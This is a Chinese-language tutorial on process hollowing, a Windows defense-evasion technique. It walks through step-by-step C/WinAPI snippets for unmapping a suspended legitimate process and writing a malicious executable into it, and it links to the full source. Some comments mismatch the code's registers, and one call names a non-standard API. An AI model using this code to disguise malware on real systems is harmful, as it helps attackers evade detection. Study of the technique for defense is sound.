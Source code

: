 ```yaml
---
description: 进程镂空
---
```


# Process Hollowing

## Process Hollowing简介

进程镂空是一种防御规避的进程注入技术,主要思想是卸载合法进程的内存，写入恶意软件的代码，伪装成合法进程进行恶意活动。

![](../.gitbook/assets/process-hollowing.gif)

## 执行流程

1. 创建一个挂起的合法进程
2. 读取恶意软件的代码
3. 获取挂起进程上下文与环境信息
4. 卸载挂起进程内存
5. 写入恶意软件代码
6. 恢复挂起进程

## 代码实现

### 1.创建一个挂起的合法进程

```text
	BOOL bRet = CreateProcessA(
		NULL,
		(LPSTR)"cmd",
		NULL,
		NULL,
		FALSE,
		CREATE_SUSPENDED,
		NULL,
		NULL,
		&si,
		&pi);
```

### 2.读取恶意软件的代码

```text
	hFile = CreateFileA(path, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
	dwFileSize = GetFileSize(hFile, NULL); //获取替换可执行文件的大小
	FileImage = VirtualAlloc(NULL, dwFileSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE); 
	ReadFile(hFile, FileImage, dwFileSize, &FileReadSize, NULL);
	CloseHandle(hFile);
```

### 3.获取挂起进程上下文与环境信息

 **进程环境块**（**PEB**）是 Windows NT操作系统内部使用的数据结构，用以存储每个进程的运行时数据，每个进程又有一个独立且由操作系统进行维护的PEB。

挂起创建的进程的EBX&RDX寄存器存储着PEB,而PEB内存储着进程的实际加载地址。

```text

	GetThreadContext(pi.hThread, &ctx); //获取挂起进程上下文

#ifdef _WIN64
	ReadVirtualMemory(pi.hProcess, (PVOID)(ctx.Rdx + (sizeof(SIZE_T) * 2)), &RemoteImageBase, sizeof(PVOID), NULL);
	// 从rbx寄存器中获取PEB地址，并从PEB中读取可执行映像的基址
#endif
	// 从ebx寄存器中获取PEB地址，并从PEB中读取可执行映像的基址
#ifdef _X86_
	ReadProcessMemory(pi.hProcess, (PVOID)(ctx.Ebx + 8), &RemoteImageBase, sizeof(PVOID), NULL); 
#endif
```

### 4.卸载挂起进程内存

如果恶意软件预期加载地址被占用，就使用ntdll内的NtUnmapViewOfSection函数卸载软件内存,该函数也是freelibrary等函数真正卸载内存使用的函数。

```text
	//判断文件预期加载地址是否被占用
	pNtUnmapViewOfSection NtUnmapViewOfSection = (pNtUnmapViewOfSection)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtUnmapViewOfSection");
	if ((SIZE_T)RemoteImageBase == pNtHeaders->OptionalHeader.ImageBase) 
	{
		NtUnmapViewOfSection(pi.hProcess, RemoteImageBase); //卸载已存在文件
	}
```

### 5.写入恶意软件代码

将恶意软件写入合法进程的空间,先写入文件头后逐段写入。

```text

	//为可执行映像分配内存,并写入文件头
	RemoteProcessMemory = VirtualAllocEx(pi.hProcess, (PVOID)pNtHeaders->OptionalHeader.ImageBase, pNtHeaders->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE); 
	WriteProcessMemory(pi.hProcess, RemoteProcessMemory, FileImage, pNtHeaders->OptionalHeader.SizeOfHeaders, NULL); 

	//逐段写入
	for (int i = 0; i < pNtHeaders->FileHeader.NumberOfSections; i++)
	{
		pSectionHeaders = (PIMAGE_SECTION_HEADER)((LPBYTE)FileImage + pDosHeaders->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER)));
		WriteProcessMemory(pi.hProcess, (PVOID)((LPBYTE)RemoteProcessMemory + pSectionHeaders->VirtualAddress), (PVOID)((LPBYTE)FileImage + pSectionHeaders->PointerToRawData), pSectionHeaders->SizeOfRawData, NULL); 
	}

```

### 6.恢复挂起进程

挂起创建的进程rcx&eax内存储着软件的入口点,需要将PEB内的实际加载地址修改为恶意软件预期的加载地址。

```text
//将rax寄存器设置为注入软件的入口点,并将预期加载地址修改为实际加载地址
#ifdef _WIN64
	ctx.Rcx = (SIZE_T)((LPBYTE)RemoteProcessMemory + pNtHeaders->OptionalHeader.AddressOfEntryPoint); 
	WriteProcessMemory(pi.hProcess, (PVOID)(ctx.Rdx + (sizeof(SIZE_T) * 2)), &pNtHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL); 
#endif

	//将eax寄存器设置为注入软件的入口点,并将预期加载地址修改为实际加载地址
#ifdef _X86_
	ctx.Eax = (SIZE_T)((LPBYTE)RemoteProcessMemory + pNtHeaders->OptionalHeader.AddressOfEntryPoint); // Set the eax register to the entry point of the injected FileImage

	WriteProcessMemory(pi.hProcess, (PVOID)(ctx.Ebx + (sizeof(SIZE_T) * 2)), &pNtHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL); 
#endif


	SetThreadContext(pi.hThread, &ctx); // 设置线程上下文
	ResumeThread(pi.hThread); // 恢复挂起线程

```

#### \* 实现效果

![](../.gitbook/assets/image%20%2849%29.png)

## 完整代码

* github:[https://github.com/idiotc4t/ProcessHollow.git](https://github.com/idiotc4t/ProcessHollow.git)

## LINKS

{% embed url="https://www.elastic.co/cn/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process" %}

{% embed url="https://attack.mitre.org/techniques/T1093/" %}



